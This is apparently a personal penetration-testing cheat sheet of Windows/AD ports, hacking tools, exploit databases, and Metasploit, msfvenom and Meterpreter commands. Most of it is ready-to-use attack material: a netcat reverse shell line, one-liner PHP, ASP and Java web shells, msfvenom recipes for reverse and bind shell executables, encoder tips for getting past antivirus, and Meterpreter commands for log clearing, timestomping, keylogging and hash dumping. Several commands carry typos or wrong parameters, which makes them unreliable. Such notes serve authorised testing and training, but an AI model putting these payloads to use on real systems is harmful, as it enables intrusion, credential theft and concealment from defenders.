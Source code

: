 SMB - 445
Kerberos - 88
RDP - 3389
LDAP - 389 636

Tools
Mimikatz - credential dumping
winPeas - local privesc
Bloodhound - collect AD data and find attack paths
PowerSploit - ps1 scripts


Exploit Databases
exploit-db.com
cve.mitre.org
securityfocus.com
Google Dork: "CVE-20XX-XXXX" site:github.com

Reverse Shell Generator
revshells.com

SearchSplot
       searchsploit <query>         
       searchspoit -m <exploit_id>
  
Fix Kali Issues
       github.com/Dewalt-arch/pimpmykali
  

Metasploit - exploitation framework. Has everything.
  msfconsole
  setg - set global variables
  unsetg
  search
  info
  use
  set RHOSTS <IP? - sets local variables
  unset
  sessions - lists active sessions
  session -i <session id> - connects to a session
  sessopn -u 1 - upgrade a session
  sessions -c cmd - execute comands in all sessions
  sessions -i 10-20 -c <session id> - execute commands in specific sessions
  
MetaSploit listener
  use multi/handler    : metasploit listener
  set LHOST
  run   -starts the listener
  
Python Listeners
  Python 2 simple web server
    python -m SimpleHTTPServer 8080
  Python 3 simple web server
    python -m http.server 1338
  
TCPdump
  tcpdump -t eth0 icmp  :listen for pings on specific interface
  tcpdump -i any icmp    :listen for pings on every interface
  
  
Listeners
  nc -lvnp <port>  : listens for connections on a port
        -l  start listener
        -v  run verbose
        -n  no DNS resolution
        -p  port
  nc <ip> <port> -e /bin/sh

Webshells
github.com/BlackArch/webshells
<?php echo system($_GET['cmd']);?>   : PHP one liner web shell  
<% eval request("cmd")%>  : ASP one liner web shell
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>  : java web shell
                  
                  
       
msfvenom
       msfvenom -l payloads   : lists available paylaods
       msfvenom -l encoders   : lists available encodings
       msfvenom -p (payload) -e (encoder) -f (filer_format) LHOST=<LISTERNER_IP> LPORT=<LISTENER_PORT>
       
       payload obsufucation is important to bypass anti virus
       msfvenom -e x86/shikata_ga_nai...
       virustotal.com to check malware hash
       
       Basic Reverse Shells
       Windows
       msfvenom -p windows/x64/shell/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/shell_reverse_tcp  LHOST=<IP> LPORT=<IP> -f elf -o malware.elf
       
       Basic Bind Shells
       Windows
       msfvenom -p windows/x64/shell/bind_tcp LHOST=<IP> RPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/bind_tcp  LHOST=<IP> RPORT=<IP> -f elf -o malware.elf
       
       msfvenom -p php/reverse_php LHOST=<IP> LPORT=1337 -o malware.php
       msfvenom -p windws/x64/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f msi -o malware.msi
      
                  
Meterpreter
       post exploitation tool for MetaSploit
       cat
       edit
       cd/ls
       pwd
       upload
       download
       
       sysinfo
       getuid
       
       Windows specific
              getsystem
              hashdump
                  
       
Meterpreter Terrorism
      clearev  : clear event logs
      timestomp  : time stamp tampering
      migrate 1337  : move to a nw process
      keyscan_start  : start keylogger
      keyscan_stop
      keyscan_dump  : dump logged keys
      screenshot
                  
                  
                  
                  
